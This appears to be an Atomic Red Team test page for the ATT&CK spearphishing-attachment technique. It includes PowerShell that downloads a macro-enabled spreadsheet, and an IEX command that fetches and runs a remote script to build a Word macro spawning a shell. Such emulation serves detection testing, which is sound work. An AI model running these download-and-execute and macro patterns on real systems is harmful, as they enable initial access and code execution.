 ```yaml
---
tags: [T1566_001, atomic_test]
filename: "[[T1566.001|T1566.001 - Phishing: Spearphishing Attachment]]"
---
```


# T1566.001 - Phishing: Spearphishing Attachment
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)
<blockquote>Adversaries may send spearphishing emails with a malicious attachment in an attempt to gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution. Spearphishing may also involve social engineering techniques, such as posing as a trusted source.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Macro-Enabled Phishing Attachment](#atomic-test-1---download-macro-enabled-phishing-attachment)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)


<br/>

## Atomic Test #1 - Download Macro-Enabled Phishing Attachment
This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating an end user clicking a phishing link to download the file.
The file "PhishingAttachment.xlsm" is downloaded to the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 114ccff9-ae6d-4547-9ead-4cd69f687306






#### Attack Commands: Run with `powershell`! 


```powershell
$url = 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indicator of malicious activity.
Upon execution, CMD will be launched and ping 8.8.8.8.

**Supported Platforms:** Windows


**auto_generated_guid:** cbb6799a-425c-4f83-9194-5447a909d67f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
